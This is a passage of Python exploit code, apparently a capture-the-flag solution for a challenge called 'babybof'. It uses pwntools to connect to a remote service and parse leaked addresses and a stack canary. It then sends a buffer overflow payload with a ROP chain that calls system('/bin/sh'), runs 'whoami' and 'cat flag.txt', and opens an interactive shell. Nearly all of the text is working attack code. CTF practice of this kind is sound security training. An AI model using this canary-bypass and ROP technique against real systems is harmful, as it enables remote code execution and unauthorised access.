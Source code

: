 ```python
      [56 buffer] + [canary] + [rbp] + [ROP chain]
    """
    p = remote(HOST, PORT)
    output = p.recvuntil(b"enter your input").decode()

    # Parse leaked values
    system_addr = pop_rdi_ret = ret_addr = binsh_addr = canary = None
    for line in output.splitlines():
        if "system @" in line:
            system_addr = int(line.split("@")[1].strip(), 16)
        elif "pop rdi; ret @" in line:
            pop_rdi_ret = int(line.split("@")[1].strip(), 16)
        elif "ret @" in line:
            ret_addr = int(line.split("@")[1].strip(), 16)
        elif '"/bin/sh" @' in line:
            binsh_addr = int(line.split("@")[1].strip(), 16)
        elif "canary:" in line:
            canary = int(line.split(":")[1].strip(), 16)

    print(f"system: 0x{system_addr:x}")
    print(f"canary: 0x{canary:x}")

    # Construct payload
    payload  = b"A" * 56
    payload += p64(canary)
    payload += b"B" * 8             # saved rbp
    payload += p64(ret_addr)        # stack alignment
    payload += p64(pop_rdi_ret)
    payload += p64(binsh_addr)
    payload += p64(system_addr)

    print(f"Payload length = {len(payload)} bytes")

    p.sendline(payload)
    sleep(1)

    # Basic shell test
    p.sendline(b"whoami")
    resp = p.recv(timeout=2)
    print(f"whoami → {resp}")

    # Try to grab flag
    p.sendline(b"cat flag.txt")
    flag = p.recv(timeout=2)
    print(f"Flag attempt: {flag}")
    if b"ictf{" in flag:
        print(f"\n🚩 FLAG FOUND: {flag.decode()} 🚩\n")

    p.interactive()

def main():
    context.arch = "amd64"
    context.log_level = "info"
    print("=== BABYBOF ===")

    find_exact_offset()
    print("\n=== EXPLOITING ===")
    exploit()

if __name__ == "__main__":
    main()
```
